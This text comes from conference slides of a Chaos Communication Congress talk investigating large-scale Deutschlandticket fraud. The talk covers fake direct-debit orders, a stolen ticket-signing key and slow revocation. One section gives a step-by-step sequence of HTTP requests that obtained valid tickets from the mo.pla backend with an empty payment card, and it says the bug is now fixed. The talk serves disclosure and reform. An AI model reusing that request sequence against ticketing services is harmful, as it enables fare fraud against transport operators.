All My Deutschlandtickets Gone
Fraud At An Industrial Scale
Q Misell, maya "551724" boeckh
39th Chaos Communication Congress
27th of December 2025
The contents of this presentation constitutes our own opinions and work.
Whilst some of this work has been partially supported by the Max-Planck-Gesellschaft zur Förderung der Wissenschaften e.V., any opinions presented here do not constitute opinions of the Max-Planck-Gesellschaft.
This talk has not been endorsed nor sanctioned by the German Government, federal nor state, the University of Ljubljana, the University of Geneva, the Karlsruhe Institute of Technology, the European Union Agency for Railways, the Verband Deutscher Verkehrsunternehmen e.V., the Union internationale des chemins de fer, the Deutschlandtarifverbund GmbH, nor any of their respective members.
Let's go travelling!

© Ahm008 - CC BY
Oh...

Let's go deal shopping!

30EUR? Nice!

15EUR? Even better!

This is what we got

We didn't even get scammed!

Hold on...
What just happened here?
We asked the Stadtwerke...
Stadtwerke SchweinfurtPeople provided fake payment information, which is not verified at the time of the preview - the ticket is invalid when scanned on the train, because there are also cancellation data available - but this only applies to the DB. Elsewhere, one might probably get through with such a ticket.
Eh?
- Order placed with a fake bank account
- Stadtwerke doesn't verify the account
- Issues ticket immediately
- Maybe they cancel it later
- Only the DB checks the cancellation list
SEPA Direct-Debit
aka. "async reconciliation simulator"
- Not your traditional online card payment
- Does not require account holder authorization, just an IBAN
- A valid seeming but fake IBAN is hard to detect
- Processing anything takes multiple days
What even is a mandate, anyway?
Letter EPC098-13, European Payments CouncilThe SEPA Regulation does not specify how a mandate should be signed by the payer.
"Why can't the issuer just revoke these tickets?"
In the highly distributed world of German public transport,
communicating revocation can be
difficult.
Issuers can have more success simply removing access in their own app.
On revocation
- Two systems exist for issuing the D-Ticket: VDV-KA and UIC
- The VDV-KA has their KA-Sperrlistenmanagementsystem (KOSES)
- The UIC has their electronic Ticket Control Database (eTCD)
- eTCD only for international traffic
- No equivalent national system (yet) for UIC tickets
The Accidental Ticket Laundromat

- We noticed quite a few tickets paid with direct debit in Zügli
- All from a only a few IP addresses
- In the names of dozens of people
- All in a short span of time
Oh no...
Explain?
- Scammers upload fraudulent tickets to Zügli
- Give Zügli's PKPass to their customers
- Disconnecting the ticket from the issuer's app
So we did some more digging
They came from here

- This site used Django debug mode in production
- We can find out where they got tickets from
Scammers move their operations around
Possibly to try and avoid detection
| 2024-08 | 2024-09 | 2024-10 | 2024-11 | 2024-12 | 2025-01 | 2025-02 | |
|---|---|---|---|---|---|---|---|
| DB AG | 1 | 1 | 2 | 10 | |||
| RMV GmbH | 14 | 174 | 184 | 173 | 241 | 11 | |
| WSW mobil GmbH | 117 | 21 | |||||
| Ennepe-Ruhr | 1 | ||||||
| Schweinfurt | 2 | 101 | |||||
| Würzburg | 1 | ||||||
| Vetter GmbH | 1 |
We reported this
This resulted in some panic at the RMV

These scammers aren't the smartest
20 tickets uploaded in one day, from one IP - O2/Telefónica Germany residential Internet.
That guy on Telegram? His personal PayPal account.

A Curious Conversation
A Signal message from a friendThere are apparantly de-ticket scams going arround that issue u tickets that are signed with the wrong key.
It uses keys from Vetter GmbH Omnibus- und Mietwagenbetrieb.
So far, so normal

Wait, no, that's not right
Senior? Unknown zone?? DB Regio???


Where on earth did this ticket come from?
d-ticket.su

Not the most reputable of operations

We bought our own ticket, just to check

Yep, that's a Vetter ticket

What, exactly, happened here?
- We cannot say conclusively (yet)
- These tickets don't have the hallmarks of payment fraud
- They're issued in ways Vetter never did
- There are careless mistakes in issuance
- Ergo: the private signing key was illictly aquired
Stealing a UIC private key
Option 1
- UIC D-Tickets are signed
with DSA-1024 and SHA-1 - Nonce re-use? Leaked key
- Poor random number generator?
Leaked key
Option 2
Wrench

Option 3
Dealings under the table
Option 4
- Plain old stupidy
- Key left exposed somewhere
Who's behind this?
- Imprint states: RouteVibe Limited
- An English company
- Registered to a random house in London
- Run by a Chinese national
- Resident in Italy
???
Some more clues
Apple Wallet Certificate Subject:
UID=pass.com.de-ticket, CN=Pass Type ID: pass.com.de-ticket, OU=X85L8WFJ87, O=Aqib Javeed,
C=US
Payment details:
"merchant_data": {
"category": "travel_agencies_tour_operators",
"category_code": "4722",
"city": "HongKong",
"country": "HK",
"name": "PM *De ticket",
"network_id": "54303994",
"postal_code": null,
"state": null,
"tax_id": null,
"terminal_id": "WPGTID01",
"url": "https://www.payermax.com/"
}
We presented this to Vetter
Vetter's response
'What are you on about mate, we don't see that?'
Their 'evidence'
Clearly photoshopped with a VDV barcode of the Usedomer Bäderbahn GmbH

Vetter's second attempt at a response
Presented with more evidence, they claimed it wasn't their problem at all! It was their partner mo.pla at fault.

mo.pla
- Munich tech startup founded around the start of the D-Ticket
- Seemingly got much of their early stack by buying another company
- Purchase included Vetter's old private keys
- Maybe they went walkies in the shake-up?
- Keys originally generated by mo.pla haven't gone missing
Vetter(n)wirtschaft
'We have nothing to do with mo.pla, we just use their services, you'll have to ask them.'
We don't think so

So, what do we do?
- Vetter have proven... unreliable
- Who oversees them?
- The D-Ticket is primarily overseen by the Deutschlandtarifverbund
- Report up the chain to them
A funny email then happened
Please also note that the key 521100001.pem was withdrawn at short notice due to suspected misuse.

This took a while
- Initial suspicions raised around September/October 2024
- Pretty confident on what was going on by the end of November
- Key revoked early February
Why did revocation take so long?
Ein Sperren des Ticketschlüssels noch im Dezember 2024 wurde aufgrund von Urlaub und Krankheit des verantwortlichen Mitarbeiters nicht durchgeführt. Ein Back-up für diese Fälle existiert bei der DTVG aufgrund enger Personaldecke nicht.
This isn't the first time
- Vetter have a storied history
- They've already been kicked out of the VDV-KA for key mis-use
- Even more impressive that they lost control of HSMs
Heise: "Warum wurde der Schlüssel zurückgezogen?"
Wir fahren seit diesem Jahr ein neues Sicherheitskonzept und tauschen die Schlüssel regelmäßig aus. In dem Zuge sind wir von 521100001.pem auf 521100002.pem umgestiegen. Gegebenenfalls werden wir dies in kürzeren Intervallen wiederholen.
Have they started rotating keys regularly?
No
A Vetter D-Ticket bought today will still be signed with the same key as in March.
Revoking the key fixed it, right?
Right???
We kept seeing suspicious Vetter tickets
- Dozens of names uploaded to Zügli from a few IPs
- Signed with the new key
- Seemingly without the earlier mistakes
- Actually issued by Vetter, not with a stolen key
We went digging again
I forwarded the IDs to mo.pla, and they found out, that their PayPal-payment-process needs some fixing. All tickets were bought with the same, empty PayPal account.
FYI: they insinuated, that Zügli is a tool used for fraudulent actions and that you “decode” Barcodes, as if this is a forbidden thing. So please be cautious about what you tell them.
They what?!
Startup is as startup does
- Some mo.pla developers' code has ended up on Stack Overflow
- It's typical startup code
- [shocked pikachu face]
Stealing a Deutschlandticket
from mo.pla: a how-to
n.b.: this bug has since been fixed
Step 1: Make an account
POST https://identitytoolkit.googleapis.com/v1/accounts:signUp?key=XXX HTTP/1.1
Content-Type: application/json
{
"returnSecureToken": True,
"email": "some@email.example",
"password": "Hunter2",
}
Step 2: Create a passenger
POST https://backend.mopla.solutions/api/passengers/create HTTP/1.1
Content-Type: application/json
Authorization: Bearer XXX (from Google)
{
"authenticationProviderId":"XXX (from Google)",
"email":"some@email.example"
}
Step 3: Some personal details
POST https://backend.mopla.solutions/api/command/addPassengerDetails HTTP/1.1
Content-Type: application/json
Authorization: Bearer XXX
{
"firstName": "Max",
"lastName": "Mustermann",
"phone": "+491711234567",
"dateOfBirth": "1990-10-03T00:00:00.000Z",
"street": "Platz der Vereinten Nationen",
"streetNumber": "9",
"zipcode": "53113",
"city": "Bonn"
}
Step 4: Attach an empty card
GET https://backend.mopla.solutions/api/passengers/intent HTTP/1.1
Authorization: Bearer XXX
POST https://api.stripe.com/v1/setup_intents/{setup_intent_id}/confirm HTTP/1.1
Content-Type: application/x-www-form-urlencoded
payment_method_data[type]=card&
payment_method_data[card][number]=XXXXXXXXXXXXXXXX&
payment_method_data[card][cvc]=XXX&
payment_method_data[card][exp_year]=XXXX&
payment_method_data[card][exp_month]=XX&
key=pk_live_XXX&
client_secret=XXX&
use_stripe_sdk=false
Step 5: Set as the default payment method
POST https://backend.mopla.solutions/api/command/setDefaultPaymentMethod HTTP/1.1
Content-Type: application/json
Authorization: Bearer XXX
{
"paymentMethodId": "XXX"
}
Step 6: Create a subscription
POST https://backend.mopla.solutions/api/command/createSubscription HTTP/1.1
Content-Type: application/json
Authorization: Bearer XXX
{
"startDate": "2025-02-01"
}
Step 7: Profit
GET https://backend.mopla.solutions/api/passengers/tickets HTTP/1.1
[{
"id":"SOME-UUID",
"ticketId":"DT-XXX...",
"status":"VALID",
"type":"GERMANYTICKET",
"validFrom":"2025-01-31T23:00:00Z",
"validTo":"2025-03-01T02:00:00Z",
"firstName":"Max",
"lastName":"Mustermann",
"aztecCode":"I1VUMDE.."
}]
Im Hintergrund wird repariert
c.f. Der Bahn Song
The scale of the damage
- DB keeps logs of all tickets scanned
- We looked for Vetter tickets signed with the stolen key in there
- The DB found 50k
- This is a lower bound, not all D-Tickets will be scanned
- There are more VUs than the DB
- At least 2,9 Million EUR abstracted
What about the Direct Debit fraud?
2,9 Million < 267 Million

VDV-Sondersitzung, 6th March 2025
267 Million EUR at 49 EUR per month
316 Million EUR at current prices — ~9 and a half new ICEs
Fixing Payment Fraud
- Withhold issuance until payment is confirmed
-
Utilise the systems available to secure payments
- 3D Secure
- Confirmation of Payee (CoP)
- Effective revocation of issued tickets
Securing the Keys
- Establish rules for private key handling
- Penalties and sanctions for fucking up
- Ideally, audited storage on HSMs
Sanctions for Vetter?
The contracts establishing the D-Ticket
do not provide for punishment in situations like this.
The better news
- Moving towards central issuance of UIC D-Tickets
- DTVG has started the rollout of a blocklist for UIC tickets
-
Currently in use by:
- Deutsche Bahn (98% of all usage, currently)
-
bConn GmbH, as used by:
- Magdeburger Verkehrsbetriebe
- Autobus Oberbayern
- Busunternehmen Lehner
- Harzer Schmalspurbahnen
-
AMCON GmbH, as used by:
Transdev, Nahverkehrsgesellschaft Hochstift, Elbe-Weser, VGE ZOB, Landkreis Würzburg, Kalmer, Veelker -
INSA, as used by:
- PVGS Altmarkkreis Salzwedel
However
